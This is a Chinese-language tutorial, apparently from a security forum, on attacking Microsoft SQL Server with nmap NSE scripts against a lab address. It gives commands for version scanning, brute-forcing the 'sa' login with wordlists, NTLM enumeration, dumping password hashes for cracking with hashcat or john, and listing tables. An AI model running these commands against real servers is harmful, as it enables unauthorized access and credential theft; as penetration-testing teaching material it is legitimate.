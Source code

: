 使用nmap进行mssql攻击
===============

Nmap是基于Lua语言NSE脚本的集合，可与调用ms-sql的NSE脚本对目标系统进行扫描。可与使用以下脚本来查找ms-sql的NSE脚本。

```php
locate *.nse | grep ms-sql
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b0f1eba8b15ae0db23d2fdf53cbbead54a0a4052.png)

### 使用脚本对mssql版本信息进行扫描

```php
nmap -p 1433 --script ms-sql-info 192.168.3.130
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-a79bcfc22ac3f675f48467737fe571c5d969d515.png)

### 对mssql进行暴力破解

```php
nmap -p1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.3.130
```

可与看到，爆破成功账号 sa:admin  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-c022ed40ca30034869617b9f0a6ff9447334dd8e.png)  
通过对脚本NSE文件进行cat，可与查看脚本使用方法。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-75d72ce69738e3ef3ad68848f9875a0934183d28.png)

### 使用NetBIOS进行枚举

发送具有无效域和空凭据的 MS-TDS NTLM 身份验证请求将导致远程服务使用 NTLMSSP 消息进行响应，该消息公开信息，包括 NetBIOS、DNS 和操作系统版本。

```php
nmap -p1433 --script ms-sql-ntlm-info 192.168.3.130
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-48f3a53e44bfade9390c4e1fe1b9f3ee957cd8f0.png)

### mssql密码hash转储

```php
nmap -p1433 --script ms-sql-dump-hashes --script-args mssql.username=sa,mssql.password=admin 192.168.3.130
```

可与使用hashcat，john等进行破解。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b017c8ae9081015b47e860239ecc7192c0a3dcbf.png)

### 枚举数据库表

```php
nmap -p1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=admin 192.168.3.130
```
